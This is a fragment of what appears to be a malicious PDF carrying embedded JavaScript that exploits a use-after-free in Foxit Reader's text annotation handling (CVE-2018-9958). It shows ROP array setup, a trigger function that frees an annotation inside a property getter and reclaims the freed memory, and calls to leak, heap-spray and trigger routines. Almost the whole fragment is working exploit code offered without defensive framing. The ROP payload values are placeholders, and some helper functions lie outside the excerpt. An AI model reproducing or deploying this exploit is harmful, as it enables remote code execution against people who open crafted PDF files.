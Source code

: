             rop[0x00] = 0x11000048;

            for (var j = 0x01; j < rop.length; j++) {
                rop[j] = 0x71727374;
            }
        }
    }

    function trigger_uaf(){
        /*
            Foxit Reader Text Annotations point Use-After-Free Remote Code Execution Vulnerability
            ZDI-CAN-5620 / ZDI-18-342 / CVE-2018-9958
            Found By: Steven Seeley (mr_me) of Source Incite
        */

        var that = this;
        var a = this.addAnnot({type:"Text", page: 0, name:"uaf"});
        var arr = [1];
        Object.defineProperties(arr,{
            "0":{
                get: function () {

                    // free
                    that.getAnnot(0, "uaf").destroy();

                    // reclaim freed memory
                    reclaim();
                    return 1;
                }
            }
        });
        a.point = arr;
    }

    leak();
    heap_spray(0x1000);

    trigger_uaf();

    )>> trailer <</Root 1 0 R>>